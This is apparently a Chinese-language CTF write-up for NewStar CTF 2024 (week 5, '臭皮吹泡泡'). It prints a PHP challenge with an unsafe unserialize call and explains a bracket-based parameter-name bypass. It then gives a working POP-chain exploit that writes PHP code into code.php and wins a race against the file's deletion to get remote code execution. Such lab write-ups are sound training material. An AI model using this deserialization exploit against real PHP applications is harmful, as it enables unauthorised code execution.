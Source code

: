 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 臭皮吹泡泡

```
<?php 
error_reporting(0); 
highlight_file(__FILE__); 

class study 
{ 
    public $study; 

    public function __destruct() 
    { 
        if ($this->study == "happy") { 
            echo ($this->study); 
        } 
    } 
} 
class ctf 
{ 
    public $ctf; 
    public function __tostring() 
    { 
        if ($this->ctf === "phpinfo") { 
            die("u can't do this!!!!!!!"); 
        } 
        ($this->ctf)(1); 
        return "can can need"; 
    } 
} 
class let_me 
{ 
    public $let_me; 
    public $time; 
    public function get_flag() 
    { 
        $runcode="<?php #".$this->let_me."?>"; 
        $tmpfile="code.php"; 
        try { 
            file_put_contents($tmpfile,$runcode); 
            echo ("we need more".$this->time); 
            unlink($tmpfile); 
        }catch (Exception $e){ 
            return "no!"; 
        } 

    } 
    public function __destruct(){ 
        echo "study ctf let me happy"; 
    } 
} 

class happy 
{ 
    public $sign_in; 

    public function __wakeup() 
    { 
        $str = "sign in ".$this->sign_in." here"; 
        return $str; 
    } 
} 



$signin = $_GET['new_star[ctf']; 
if ($signin) { 
    $signin = base64_decode($signin); 
    unserialize($signin); 
}else{ 
    echo "你是真正的CTF New Star 吗？ 让我看看你的能力"; 
}
```

在参数传递时，[ 是非法变量名，会被 PHP 处理成 _，这导致我们无法直接传递想要的参数 new_star[ctf。

然而，php 这样的处理只会处理一次，在首次处理后不会继续处理随后的违规字符。

因此，当我们传递的参数是 new[star[ctf 的时候，php 会处理成 new_star[ctf，这样就成功传递了参数。

构建pop链的终点是 let_me 的 get_flag() 函数，这里可以进行文件写入。

![](/assets/images/wp/2024/week5/choupicuipaopao_1.png)

文件前后添加了字符 '<?php #' 和 '?>',这会把我们写入的 php 代码注释掉，导致不能正常执行。

这里我们可以闭合 php 符号，从而执行 php 代码。

```
<?php # ?> <?php echo("1");?>
```

这里我们将代码写入文件就会被立刻删除，所以我们需要找一个办法，使得文件存在的时间长一点。注意到：

![](/assets/images/wp/2024/week5/choupicuipaopao_2.png)

![](/assets/images/wp/2024/week5/choupicuipaopao_3.png)

这里可以构造一个 sleep(1)，使得文件存在的时间增加 1 秒，这样就可以完成条件竞争。

``出完题目发现可以直接使用 die(1)，这样可以直接使得文件不会被删除就退出。``

```
<?php
error_reporting(0);
class study
{
    public $study;

   
}
class ctf
{
    public $ctf;
}
class let_me
{
    public $let_me;
    public $time;

}

class happy
{
    public $sign_in;

}
$payload  = new happy();
$payload ->sign_in = new ctf();
$exp = new let_me();
$exp->let_me="?> <?php phpinfo();";
$exp->time=new ctf();
$exp->time->ctf="sleep";
$payload ->sign_in->ctf =array($exp,"get_flag");
echo base64_encode(serialize($payload));
?>
```

发包后快速访问我们写入的 code.php，完成 rce（或者写一个脚本访问，或者 bp 爆破）

![](/assets/images/wp/2024/week5/choupicuipaopao_4.png)

![](/assets/images/wp/2024/week5/choupicuipaopao_5.png)